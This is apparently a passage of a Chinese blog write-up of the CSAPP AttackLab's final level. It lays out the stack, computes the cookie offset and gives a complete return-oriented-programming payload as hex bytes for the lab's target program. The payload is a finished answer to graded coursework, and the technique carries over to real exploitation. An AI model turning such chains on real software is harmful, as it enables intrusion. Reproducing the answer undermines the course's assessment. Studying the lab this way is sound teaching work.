 touch3 地址|0x4018fa|调用 touch3 函数
cookie|touch3 上方|起始位置地址的 ASCII：35 39 62 39 39 37 66 61 **00**

**栈底**

`cookie` 的起始位置是栈顶 + 10 指令的位置，注意在执行的时候 `0x28` 个字符串已经被读入并且执行了 `retq` 转移到了 gadget1，所以当第一个 gadget 调用的时候，cookie 相比之前“更近”了一条和指令。也就是 +9。所以偏移量 `offset` =  9 * 8 = 72 = 0x48 字节。
构造字符串：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```
运行结果：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-level5-success.png)
# 总结
- 这次复习了一下 CSAPP 的第三章，注意到了函数调用与栈之间的关系
- 小端表示以及字符串在内存的方式与看上去的不同！
# 引用&参考
- [（Wikipedia）缓冲区溢出攻击](https://zh.wikipedia.org/wiki/%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA)
- [（W3cSchool）字符串](https://www.w3cschool.cn/cplusplus/18ac1nx9.html)
- [（不周山）CSAPP AttackLab 实验](http://wdxtub.com/2016/04/16/thick-csapp-lab-3/)
- [（STAR 皆空）CSAPP AttackLab 实验](http://tinylcy.me/2017/CSAPP-Attack-Lab/)
- [（cnblogs）CS:APP3e 深入理解计算机系统_3e Attacklab 实验](http://www.cnblogs.com/liqiuhao/p/7710827.html)
- [（Wikipedia）返回导向编程（ROP）](https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B)
- [（CSAPP）实验文档](http://csapp.cs.cmu.edu/3e/target1.tar)
- Randal E.Bryant 等，深入理解计算机系统（第三版）[M]. 北京：机械工业出版社，2016：198-201，120